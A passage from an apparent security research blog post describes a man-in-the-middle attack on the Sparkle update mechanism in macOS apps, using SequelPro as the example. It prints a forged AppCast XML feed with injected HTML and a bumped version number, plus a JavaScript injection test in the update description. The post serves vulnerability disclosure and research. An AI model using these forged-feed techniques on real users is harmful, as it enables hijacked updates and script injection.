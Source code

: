 Man In The Middle ([MITM](https://en.wikipedia.org/wiki/Man-in-the-middle_attack)) is an attack where the third party secretly intercepts traffic between two parties, _e.g._, a user and a server. It provides an opportunity to capture and modify (un)encrypted traffic from the user.

Let's sum up everything to that point:

- AppCast process is using HTTP that could be intercepted and modified on the fly
- We can insert our HTML and JavaScript code into a WebView component to display it to the user
- We control the transmission after doing the MITM attack

With all this information, we can go further and start our attack against [SequelPro](http://www.sequelpro.com/) (chosen at random). Let's visualize the actual network topology:

![](https://vulnsec.com/assets/images/posts/osx-apps-vulnerabilities/schema.2.png)

After we control unencrypted traffic from the Bob machine by setting up one of the attacks inside your LAN, like fake Wi-Fi Access Point or sniffing/spoofing, this part is ready. Now we can spoof DNS probes for the AppCast server and send our malformed response which is:

```
<?xml version="1.0" encoding="utf-8"?>
<rss xmlns:atom="http://www.w3.org/2005/Atom"
xmlns:sparkle="http://www.andymatuschak.org/xml-namespaces/sparkle" version="2.0">
 <channel>
 <title>Sequel Pro</title>
 <link>http://www.sequelpro.com/</link>
 <description>Appcast for Sequel Pro</description>
 <language>en</language>
 <item>
 <title>Sequel Pro v1.2</title>
 <description><![CDATA[
 <h1>Modified message</h1>
 <p>It means that our <b>MITM</b> attack is working.</p>
 ]]></description>
 <pubDate>Thu, 01 Jan 1970 00:00:01 GMT</pubDate>
 <enclosure
 url="https://github.com/sequelpro/sequelpro/releases/download/release-1.1/sequel-pro-1.1.dmg"
 length="10482573"
 type="application/octet-stream"
 sparkle:dsaSignature="MCwCFAyXhQMU7BR1tqa8KFuXnGAooA4ZAhQtJoStAhvbfmvsaejqnWSKWZUuY=="
 sparkle:version="9999" sparkle:shortVersionString="9.99" />
 </item>
 </channel>
</rss>
```

Remember to bump-up an app version (`sparkle:version`) in the XML response. Without it, SequelPro is not going to display our update reminder.

![SequelPro update reminder](https://vulnsec.com/assets/images/posts/osx-apps-vulnerabilities/screenshot.1.png)

After we've confirmed that `HTML` code get executed, we can test for a `JavaScript` example:

```
<description><![CDATA[
 <script type="text/javascript">
 window.location = 'https://www.google.com/';
 </script>
]]></description>
```
